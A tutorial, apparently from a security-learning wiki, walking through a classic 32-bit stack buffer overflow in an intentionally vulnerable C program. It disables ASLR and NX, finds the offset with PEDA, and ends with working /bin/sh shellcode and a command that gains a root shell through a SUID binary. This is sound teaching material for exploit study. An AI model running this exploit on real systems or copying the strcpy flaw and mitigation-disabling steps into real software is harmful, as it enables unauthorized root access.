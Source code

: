 # Linux, Vulnerable functions in C programs



## Configurar entorno

### Install GDB PEDA y checkseck

```bash
# gdb PEDA
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit

# checkseck
wget https://www.trapkit.de/tools/checksec/checksec.sh
cp checksec.sh /usr/bin/checksec
rm checkseck.sh 
```



### Disable ASLR&#x20;

(from [https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization))

According to an article [How Effective is ASLR on Linux Systems?](https://web.archive.org/web/20210814111134/https://securityetalii.es/2013/02/03/how-effective-is-aslr-on-linux-systems/), you can configure ASLR in Linux using the `/proc/sys/kernel/randomize_va_space` interface.

> The following values are supported:
>
> * 0 – No randomization. Everything is static.
> * 1 – Conservative randomization. Shared libraries, stack, `mmap()`, VDSO and heap are randomized.
> * 2 – Full randomization. In addition to elements listed in the previous point, memory managed through `brk()` is also randomized.

So, to disable it, run

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

and to enable it again, run

```
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

This won't survive a reboot, so you'll have to configure this in `sysctl`. Add a file `/etc/sysctl.d/01-disable-aslr.conf` containing:

```
kernel.randomize_va_space = 0
```

should permanently disable this.



### Código

```c
#include <stdio.h>

int main(int argc, char *argv[]){
        char buffer[64];
        strcpy(buffer, argv[1]);
}
```



## Explotación

### Sin ASLR ni NX



\###Flags for compile disabling DEP (NX):

{% code overflow="wrap" lineNumbers="true" %}
```bash
gcc -z execstack -g -fno-stack-protector -mpreferred-stack-boundary=2 <file> -o <elf-name>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

#### Calcular offset

```bash
gdb ./<elf-file>     # Inicializar PEDA
pattern arg 100      # Crear una cadena para calcular el offset de 100 bytes de long.
run                  # Correr el programa con el offset creado
pattern search       # Calcular el offset
```

Como vemos se produce un BOF al correr el programa

<figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

Con un offset de 68 bytes:

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

Ahora vamos a agregar unos nops seguido de estos vamos a pasar una shellcode que queramos ejecutar y elegir una dirección intermedia de los nops que será la que pasemos al EIP para que ejecute nuestra shellcode. Pero antes tenemos que determinar la dirección en la que están los NOP's, por lo que debemos efectuar el BOF, las "A" se repiten 68 veces debido a que generan el desbordamiento, las "B" hacen referencia al EIP y los "\x90" a los NOP's:



`run $(python -c 'print "A" * 68 + "BBBB" + "\x90" * 200 ') # en PEDA`

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

Ahora debemos buscar una shellcode que nos interese y ponerla después de los NOP's, y elegir una dirección de los NOP's para decirle al EIP que salte a esta dirección,como están en formato Little Endian habrá que invertir su orden:

{% code overflow="wrap" %}
```
# Shellcode for 32 bits spawn a /bin/sh
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```
{% endcode %}

Como el archivo es del propietario root y cuenta con permisos SUID podemos ejectuar el siguiente comando para obtener un sh como root en la maquina:

```
./<elf-SUID> $(python -c 'print <OFFSET> + <EIP-ADDRESS> + <NOPS> + <SHELLCODE>')
./vuln $(python -c 'print "A" * 68 + "\xc0\xf4\xff\xbf" + "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

